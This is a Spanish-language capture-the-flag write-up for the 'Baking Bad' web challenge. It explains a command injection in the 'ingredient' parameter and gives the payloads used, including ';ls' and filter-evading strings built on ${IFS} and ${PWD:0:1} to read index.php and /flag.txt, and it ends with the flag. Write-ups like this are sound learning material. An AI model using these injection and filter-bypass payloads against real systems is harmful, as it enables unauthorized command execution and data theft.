









# Baking Bad


## URL
https://brunnerctf.dk/challenges#Baking%20Bad-47

## Requerimientos
El script requiere la librería requests.

La instalación de requerimientos se realiza con el siguiente comando:<br>
```pip install -r requirements.txt```
## Writeup
El desafío presenta una aplicación web llamada “Baking Bad purity tester” que consiste en un simulador para probar ingredientes que resulten en una receta con mayor pureza, para esto se mostraba el siguiente input que recibía un parámetro ingredient en la URL.
<br>





Ingresando un ingrediente como chocolate, podemos observar lo siguiente:


 <br>
 <br>


Como se puede observar el input de ingrediente presenta una vulnerabilidad del tipo Command Injection. <br>
Probando el parámetro vulnerable con un comando simple, notamos que los comandos enviados en el ingredient se ejecutaban en el servidor. <br>
Ejemplo:
```https://baking-bad-482443ddb3d4c3dc.challs.brunnerne.xyz/?ingredient=%3Bls```<br>
Lo que nos genero la siguiente salida:





Intentando mostrar los archivos indicados nos dimos cuenta que se bloquean ciertos comandos y caracteres como cat, espacios o /.
Con el siguiente comando logramos abrir el archivo index.php de la página web, lo que mostró lo siguiente: <br>
```;awk${IFS}1${IFS}index.php```<br>
```https://baking-bad-482443ddb3d4c3dc.challs.brunnerne.xyz/?ingredient=%3Bawk%24%7BIFS%7D1%24%7BIFS%7Dindex.php```<br>
Usando {IFS} que se traduce al espacio en blanco (Internal Field Separator).<br>









Como se puede observar vemos que hay una lista de comandos y caracteres denegados, y además podemos ver que la flag se encuentra en el directorio /flag.txt. <br>
Luego de varios intentos, encontramos que usando sustituciones de Bash se podía evadir los filtros. <br>
El payload final fue: <br>
```;more${IFS}${PWD:0:1}flag.txt``` <br> 
```https://baking-bad-482443ddb3d4c3dc.challs.brunnerne.xyz/?ingredient=%3Bmore%24%7BIFS%7D%24%7BPWD%3A0%3A1%7Dflag.txt``` <br>
Siendo more una alternativa a cat y usando ${PWD:0:1} que devuelve /, para poder acceder a /flag.txt. <br> 
Al ejecutar ese payload, obtuvimos la flag: <br>





La ejecucion del script automatico se realiza con el siguiente comando: <br> 
```python3 script.py```

## Flag
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
